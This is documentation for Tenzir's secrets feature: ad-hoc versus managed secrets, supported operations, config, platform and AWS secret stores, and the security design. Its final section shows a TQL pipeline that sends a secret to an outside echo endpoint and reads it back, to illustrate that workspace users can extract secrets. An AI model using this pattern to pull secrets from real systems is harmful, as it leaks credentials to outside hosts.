


Operators accept secrets as parameters for sensitive values, such as authentication
tokens, passwords, or even URLs.

:::note
Secrets are designed to protect against _accidentally_ compromising the secret
value.
You should assume that anyone with access to a workspace will be able to obtain
the true value.

Read more in the [Security Design](#security-design) section.
:::

## Usage in TQL

You can use secret values only with operators that accept secrets. Operators
generally do not document that they accept a secret, but they will accept
secrets where appropriate.

You have two ways to pass an argument to an operator that expects a secret.
The following examples use the [`to_splunk`](/reference/operators/to_splunk)
operator, which expects a HEC-token for authentication:

- Provide a plain `string` ([Ad-hoc Secret](#ad-hoc-secrets)):

  ```tql
  to_splunk "https://localhost:8088", hec_token="my-plaintext-token"
  ```

  This creates a "secret" containing the string literal `my-plaintext-token`.

- Use the [`secret`](/reference/functions/secret) function ([Managed Secret](#managed-secrets)):

  ```tql
  to_splunk "https://localhost:8088", hec_token=secret("splunk-hec-token")
  ```

  The operator fetches the secret named `splunk-hec-token` to authenticate with
  the Splunk endpoint.

## The `secret` type

Tenzir's [type system](/reference/language/types) includes secrets as a special
type. You can create secrets only with the [`secret`](/reference/functions/secret)
function.

### Internals

A value of type `secret` contains only the secret's name, not the secret value
itself. When an operator uses a secret, it resolves the name asynchronously.
For Ad-hoc secrets created from a string literal, the secret name and value are
identical, so no lookup occurs.

### Supported Operations

The `secret` type supports only a limited set of operations, all of which yield
a `secret`.

#### Encoding & Decoding

You can base64-decode secrets using the [`decode_base64`](/reference/functions/decode_base64)
function and base64-encode them using the [`encode_base64`](/reference/functions/encode_base64)
function:

```tql
secret("my-secret").decode_base64()
```

#### Concatenation

You can concatenate secrets with other secrets or strings using the `+` operator:

```tql
auth = "Bearer " + secret("my-secret")
url = secret("user-name") + ":" + secret("password")
```

:::note[Limited Nesting]
You cannot encode or decode the _result_ of a concatenation.
:::

### Secrets in Python

You cannot use secrets in the [`python`](/reference/operators/python) operator.
If you try to modify a secret in it, the pipeline fails.

## Ad-hoc Secrets

**Ad-hoc secrets** are secrets implicitly created from a `string` within TQL.
This happens when you provide a `string` to an operator that expects a `secret`.

Providing plain string values can help when you develop pipelines and do not
want to add the secret to the configuration or a secret store.

This approach is also useful for arguments that you do not consider a secret, so
you don't have to create a managed secret.

However, secrets created from plain `string`s do not enjoy the same security as
managed secrets. Their value appears directly in the TQL pipeline definition, as
well as in the compiled and executed representation. As such, the Tenzir Node
may persist the value.

## Managed Secrets

You can use the [`secret`](/reference/functions/secret) function refer to a
managed secret.

Managed secrets are identified by their name and can come from the following
sources, in descending precedence:

1. The environment of the Tenzir Node
2. The configuration of the Tenzir Node
3. The Tenzir Platform secret store for the workspace the Tenzir Node belongs to



Tenzir looks up the secret's actual value only when an operator requires it.
The node's configuration is checked first, with environment variables taking
precedence over configuration file entries.
If Tenzir does not find the secret there, it sends a request to the platform.

If Tenzir returns the value over any network connection, it additionally
encrypts the value using [ECIES](https://en.wikipedia.org/wiki/Integrated_Encryption_Scheme)
with a one-time, per-secret key. The value remains encrypted throughout the
transfer until the final usage site.

A `tenzir` client process can use managed secrets only if it is able to connect
to a Tenzir Node.

### Configuration Secrets

You can specify secrets in the `tenzir.yaml` config file, under the path
`tenzir.secrets`:

```yaml title="tenzir.yaml"
tenzir:
  secrets:
    # Add your secrets here.
    geheim: 1528F9F3-FAFA-45B4-BC3C-B755D0E0D9C2
```

Since you can also set Tenzir's configuration options as environment variables,
you can define secrets in the environment as well. The above secret could also
be defined via the environment variable `TENZIR_SECRETS__GEHEIM`. An environment
variable takes precedence over an equivalent key in the configuration file.

See the [configuration reference](/reference/configuration) for more details.

Tenzir hides the `tenzir.secrets` section from the [`config()`](/reference/functions/config)
function.

### Platform Secrets

The Tenzir Platform stores a separate set of secrets for every workspace. All
Tenzir Nodes connected to that workspace can access these secrets.

You can add, update, or delete secrets from a workspace using either the
`tenzir-platform` CLI or the web interface. Read more details in the
[CLI reference](/reference/platform-cli#manage-secrets).

For example, to add a new secret `geheim`, use the following command:

```sh title="Add value to the Platform's secret store"
tenzir-platform secret add geheim --value=1528F9F3-FAFA-45B4-BC3C-B755D0E0D9C2
```

To manage secrets from the web interface, go to the `Workspace Settings` screen
by clicking the gear icon in the workspace selector:



#### External Secret Stores

You can configure the Tenzir Platform to provide access to secrets stored in an
external secrets store instead of using its internal secret store. This access
is read-only; you cannot write to or delete from an external secrets store at
this time.

Currently, you can configure external secret stores only with the
`tenzir-platform` CLI. To configure an external secret store, use the
`secret store add` subcommand.

```sh title="Add AWS Secrets Manager as external secret store"
tenzir-platform secret store add aws \
  --region='eu-west-1' \
  --assumed-role-arn='arn:aws:iam::1234567890:role/tenzir-platform-secrets-access' \
  --prefix=tenzir/
```

At the moment, only [AWS Secrets Manager](https://aws.amazon.com/secrets-manager/)
is supported as an external secrets store.

To provide access to external secrets for the nodes, you must give the
Tenzir Platform the necessary permissions to read secret values from the
external store.
In the example above, the Tenzir Platform must be able to assume the specified
role, and the role must have permissions to read secrets under the prefix `tenzir/`
from the Secrets Manager instance in the account of the assumed role.

See the
[CLI reference](/reference/platform-cli#manage-external-secret-stores) for
more details.

## Legacy Model

You can use the configuration option `tenzir.legacy-secret-model` to change the
behavior of the `secret` function so that it returns a `string` instead of a `secret`.

When you use the legacy model, you can only use secrets from the Tenzir Node's
configuration. You cannot use secrets from the Tenzir Platform's secret store.

We do not recommend enabling this option. It exists as a transition option and
will be deprecated and removed in some future version.

## Security Design

We designed secrets to protect against _accidentally_ compromising the secret
value by revealing it in a log file, showing it in a UI element, or committing
it to a code repository as part of a pipeline.

However, anyone with access to a workspace can access secret values if
sufficiently motivated.

For example, you could use a simple HTTP API that echoes requests to extract
secret values:

```tql
from_http "echo.api.com",
  headers = { leaked: secret("key") },
  metadata_field=meta
select meta.headers.leaked
```

```tql
{ leaked: "secret-value" }
```
